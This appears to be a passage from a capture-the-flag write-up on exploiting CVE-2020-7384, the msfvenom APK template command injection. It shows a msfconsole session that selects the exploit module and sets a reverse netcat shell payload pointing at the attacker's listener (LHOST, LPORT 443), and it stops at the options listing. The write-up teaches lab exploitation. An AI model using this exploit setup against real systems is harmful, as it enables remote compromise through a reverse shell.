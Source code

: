 The version of metasploit on the box is 6.0.9, which is vulnerable to [CVE-2020-7384](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md). I can use the `searchsploit` command line or through the website to find this vulnerability:

![image-20210528121353306](https://0xdfimages.gitlab.io/img/image-20210528121353306.png)

I actually worked with ExploitDB to get them to add this vulnerability to their database so that it would show up for this box. The vulnerability is a command injection in the way that `msfvenom` handles an APK template file. The idea of the template file is that you can pass `msfvenom` a legit `.exe` or `.apk`, and it will try to build a malicious file into that file while preserving the intended capability. This functionality allows for attackers to hide behind the legit functionality.

### Build Payload

There’s also a metasploit exploit for this vulnerability which I found more reliable than the Python script:

```

oxdf@parrot$ msfconsole
...[snip]...
msf6 > search msfvenom

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) >

```

The default options work, so I’ll just set my host and port:

```

msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 443
LPORT => 443
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port
   **DisablePayloadHandler: True   (no handler will be created!)**
```
